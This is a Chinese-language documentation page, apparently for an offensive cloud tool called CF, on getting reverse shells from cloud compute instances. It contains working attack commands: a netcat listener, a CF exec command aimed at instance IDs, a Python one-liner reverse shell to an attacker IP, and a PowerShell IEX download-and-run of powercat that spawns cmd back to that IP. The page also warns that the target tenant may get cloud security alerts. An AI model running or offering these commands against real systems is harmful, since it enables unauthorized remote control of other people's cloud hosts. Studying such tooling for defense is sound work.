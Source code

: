 ```yaml
---
title: 反弹 Shell
---
```


## 反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

`--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果未指定具体的实例，则 CF 会提醒是否是选择全部实例还是某个实例。）

```bash
cf ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
export RHOST="123.123.123.123";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

   <img width="800" src="/img/1656605535.png">

   <img width="650" src="/img/1656605596.png">

在 CF 中使用的 Windows 反弹 Shell 如下

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

   <img width="850" src="/img/1656605944.png">

   <img width="650" src="/img/1656605897.png">

> 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。
>
> 因为反弹 Shell 需要命令保持一直处于执行状态，所以在上面的图片里可以看到提示命令执行超时。

::: warning 注意

在阿里云下反弹 Shell ，目标租户可能会收到阿里云的云盾告警消息，所以此操作需谨慎。

:::

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月4日"
    }
  }
</script>